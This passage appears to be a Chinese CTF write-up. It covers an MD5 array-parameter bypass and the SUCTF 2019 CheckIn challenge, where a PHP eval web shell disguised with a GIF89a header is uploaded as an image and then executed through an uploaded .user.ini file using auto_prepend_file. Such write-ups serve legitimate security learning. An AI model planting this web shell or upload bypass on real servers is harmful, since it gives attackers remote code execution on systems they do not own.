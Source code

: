 第一步,`id`和`gg`值不相等,但是`md5`计算结果相等, 数组绕过:

```
?id[]=1&gg[]=2
```

第二步,POST传`passwd`参数,要求等于1234567,还要是字符串,那么传数字加字母就行:

```
passwd=1234567a
```

<br>

***

<br>

# [SUCTF 2019]CheckIn

## 利用`.user.ini`

这里的上传对文件内容进行检测,例如php文件中的`<?`就会被过滤掉, 同时还会检测是否上传的是图片:

因此使用`GIF89`+`script`的形式进行绕过

```
GIF89a
<script language="php"> @eval($_POST['a']);</script>
```

上述文件命名为`scri.jpg`,能够成功上传

接下来需要解决怎样让上传的图片马在服务器端执行的问题, **这里尝试上传`.htaccess`文件,不起作用**

另外一种方法是上传`.user.ini`文件:

>`.user.ini`实际上就是一个可以由用户自定义的`php.ini`配置文件，我们能够自定义的设置是模式为“`PHP_INI_PERDIR` 、 `PHP_INI_USER`”的设置。
>它比`.htaccess`(分布式配置文件)用的更广，不管是`nginx/apache/IIS`，只要是以`fastcgi`(进程管理器)运行的php都可以用这个方法。
>
>其中有两项可以为我们所用:
>
>- `auto_prepend_file`指定一个文件，自动**包含在要执行的文件前**，类似于在文件前调用了`require()`函数。
>
>- `auto_append_file`类似，只是**在文件后面包含**。
>
>**例如如果同目录下有`.user.ini`,其内容为:**
>
>```
>auto_prepend_file="1.jpg"
>```
>
>**那么在执行同目录下的`index.php`(或者其他php文件)时,就会先自动地对`1.jpg`进行包含**

那么这里就可以准备一个`.user.ini`,其内容为: 这里前面加GIF是为了绕过`exif_imagetype`对文件内容的检测

```
GIF
auto_prepend_file="scri.jpg"
```
